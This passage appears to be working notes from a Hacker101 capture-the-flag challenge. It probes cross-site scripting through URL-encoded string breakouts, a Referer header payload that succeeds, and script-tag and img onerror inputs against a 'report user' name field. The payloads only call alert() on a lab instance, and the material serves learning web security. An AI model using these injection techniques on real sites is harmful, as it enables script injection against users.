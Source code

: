 ```javascript
if (redirect == null) { 
    document.getElementById("redirectUrl").href="index.php";
}
```

Constructing a URL such as ```https://xxx.ctf.hacker101.com/?q=</script>#searchterm=x```. After redirect the above becomes

```html
<script>
    var referrer = 'https://xxx.ctf.hacker101.com/?q=%3C/script%3E';
    var is1337=false;
</script>
```

Can we end the string for the referrer var? ```https://xxx.ctf.hacker101.com/?q=%27;//#searchterm=x```

```html
<script>
    var referrer = 'https://xxx.ctf.hacker101.com/?q=%27;//';
    var is1337=false;
</script>
```

Double encoded? ```https://xxx.ctf.hacker101.com/?q=%2527;//#searchterm=x```

```html
<script>
    var referrer = 'https://xxx.ctf.hacker101.com/?q=%2527;//';
    var is1337=false;
</script>
```

What if I try a referer header value of ```https://xxx.ctf.hacker101.com/?q=';alert('referrer');//``` from burp repeater

OK this works, surely this is self XSS though? Hmmmm........

### Report user

The report user feature reflects the name into the review eg.

```html
<li>test — Pending review<i class="fas fa-user-clock" aria-hidden="true"></i></li>
```

```<script>``` tags are stripped from a name value of ```<script>alert(1)</script>```

```html
<li>alert(1) — Pending review<i class="fas fa-user-clock" aria-hidden="true"></i></li>
```

As are events ```<img src=x onerror=alert(1)>```

```html
<li><img src="x"> — Pending review<i class="fas fa-user-clock" aria-hidden="true"></i></li>
```
